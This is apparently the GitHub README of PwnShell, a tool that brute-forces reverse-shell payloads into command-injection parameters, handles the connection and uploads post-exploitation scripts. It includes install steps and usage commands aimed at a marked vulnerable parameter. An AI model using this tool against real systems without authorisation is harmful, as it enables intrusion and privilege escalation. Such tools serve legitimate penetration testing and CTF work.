

# PwnShell

### PwnShell is a Powerfull RevShell Bruteforcer and Connection Handler built For Security Researchers and CTF Players!
<details>
    <ol>
    <li><div>Bruteforces the Vulnerable Paramter</div></li>
    <li><div>Recieve and Handle the Connection</div></li>
    <li><div>Downloads Post exploitation scripts from their Repos.</div></li>
    <li><div>Uploads them to target</div></li>
    <li><div>Activates a TTY shell using Python3 </div></li>
    <li><div>Enjoy!</div></li>
  </ol>
</details>

![Alt text](https://github.com/zAbuQasem/PwnShell/blob/main/Screenshots/PwnShell.png)

## Navigation:
   <ol>
    <li><a href="#installation">Installation</a></li>
    <li><a href="#usage">Usage</a></li>
    <li><a href="#contact">Contact</a></li>
    <li><a href="#acknowledgements">Acknowledgements</a></li>
  </ol>

## Installation:

1. Clone the repo
   ```sh
   git clone https://github.com/zAbuQasem/PwnShell
   ```
2. Install the dependencies
   ```sh
   cd PwnShell/
   pip3 install -r requirements.txt
   ```
3. Make the script executable 
   ```sh
   chmod +x pwnshell.py
   ```

<!-- USAGE EXAMPLES -->
## Usage:
### Request-File Method [Recommended] 👇
```sh
./pwnshell.py -H [HOST IP] -f [REQUEST FILE]
```
#### Example:
-Copy from Burp or Network tab

-Replace the Vulnerable place in the parameter with 'PWNME'
```sh
GET /Vulnerable.php?cmd=PWNME HTTP/1.1
Host: 127.0.0.1
User-Agent: Mozilla/5.0 (Windows NT 10.0; rv:78.0) Gecko/20100101 Firefox/78.0
Accept: text/html,application/xhtml+xml,application/xml;q=0.9,image/webp,*/*;q=0.8
Accept-Language: en-US,en;q=0.5
Accept-Encoding: gzip, deflate
DNT: 1
Connection: close
Upgrade-Insecure-Requests: 1
```
### URL Method 👇
```sh
./pwnshell.py -H [HOST-IP] -u [TARGET-URL] -m [REQUEST-METHOD] -c [COOKIES (optional)] -k [HEADERS (optional)]

#Note: Cookie and headers must be in JSON format (if provided).
   ```
```sh
./pwnshell.py -H <HOST-IP> -u http/s://<TARGET>/vulnerable.php?cmd=PWNME --method GET --cookies '{"key" : "value"}' 
```
#### Example:
-Replace the Vulnerable place in the parameter with 'PWNME'
```sh

./pwnshell.py -H 127.0.0.1 -u http://10.10.10.10/vulnerable.php?cmd=PWNME
```

### For NodeJs Payloads:
```sh
./pwnshell.py -H [HOST-IP] -n   
  
#To use only -> require('child_process').exec('Payload')
```
## Preview:
### Using [Request-File Method]
![Alt text](https://github.com/zAbuQasem/PwnShell/blob/main/Screenshots/requestfile-demo.gif)

### Using [URL Method]
![Alt text](https://github.com/zAbuQasem/PwnShell/blob/main/Screenshots/url-demo.gif)

<!-- CONTACT -->
## Contact:

**Zeyad AbuQasem** - [LinkedIn](https://www.linkedin.com/in/zeyad-abuqasem/)

**Omar Albalouli** - [LinkedIn](https://www.linkedin.com/in/omar-albalouli/) & [Github](https://github.com/omaralbalolly)

<!-- ACKNOWLEDGEMENTS -->
## Acknowledgements:
* [linPEAS](https://github.com/carlospolop/privilege-escalation-awesome-scripts-suite/tree/master/linPEAS)
* [LinEnum](https://github.com/rebootuser/LinEnum)
* [Linux Exploit Suggester](https://github.com/mzet-/linux-exploit-suggester)
* [Docker Privesc Script](https://github.com/flast101/docker-privesc)
* [SUID3NUM](https://github.com/Anon-Exploiter/SUID3NUM)
* [Burpee](https://github.com/xscorp/Burpee)

### TODO:
```sh
1- Add support for windows
2- Add more payloads and options
3- Add Post exploitation scripts for [linux/windows]
